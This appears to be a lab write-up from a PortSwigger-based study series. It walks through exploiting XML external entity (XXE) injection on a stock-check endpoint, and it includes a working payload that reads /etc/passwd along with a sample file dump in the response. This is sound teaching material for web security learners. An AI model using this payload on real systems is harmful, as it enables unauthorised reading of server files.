

## XXE Injection Attack Scenario

### Lab Setup: Exploiting XXE Using External Entities

Let's walk through a practical scenario where we exploit an XXE vulnerability to retrieve files from the server.

#### Step 1: Identify the Vulnerable Endpoint

The first step is to identify the endpoint that accepts XML input. In our case, the endpoint is `/product/stock`.

#### Step 2: Send the Request to Repeater

We will use Burp Suite's Repeater tool to send the POST request to the `/product/stock` endpoint. The request looks like this:

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml
Content-Length: 123

<stockCheck>
    <productId>1</productId>
    <storeId>2</storeId>
</stockCheck>
```

#### Step 3: Inject the Malicious XML

To exploit the XXE vulnerability, we need to inject malicious XML that includes an external entity. Here is the modified request:

```http
POST /product/stock HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml
Content-Length: 123

<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>2</storeId>
</stockCheck>
```

In this request:
- We define an external entity `xxe` that references the `/etc/passwd` file.
- We then reference this entity in the `productId` field.

#### Step 4: Analyze the Response

If the server is vulnerable to XXE, the response will contain the contents of the `/etc/passwd` file. Here is an example response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Mermaid Diagram: XXE Attack Flow

Here is a mermaid diagram illustrating the flow of the XXE attack:



---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/02-Lab 1 Exploiting XXE using external entities to retrieve files/11-Understanding the Lab Scenario|Understanding the Lab Scenario]] | [[Web Security (PortSwigger)/08-XXE Injection/02-Lab 1 Exploiting XXE using external entities to retrieve files/00-Overview|Overview]] | [[13-XXE Injection Exploiting External Entities to Retrieve Files|XXE Injection Exploiting External Entities to Retrieve Files]]
